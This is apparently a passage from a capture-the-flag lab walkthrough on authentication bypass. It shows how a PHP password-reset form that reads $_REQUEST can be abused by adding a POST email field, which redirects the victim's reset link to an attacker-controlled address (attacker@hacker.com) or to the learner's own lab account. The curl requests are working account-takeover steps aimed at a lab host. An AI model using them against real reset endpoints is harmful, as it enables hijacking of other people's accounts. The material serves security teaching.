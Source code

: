 This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.

# Curl Request 1:
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

We use the -H flag to add an additional header to the request. In this instance, we are setting the Content-Type to application/x-www-form-urlencoded, which lets the web server know we are sending form data so it properly understands our request.
In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable $_REQUEST.

The PHP $_REQUEST variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

# Curl Request 2:
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'


For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

# Curl Request 2 (but using your @acmeitsupport.thm account):
user@tryhackme:~$ curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'




# COOKIE TAMPERING

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out the HTTP In Detail room on task 6.

Plain Text
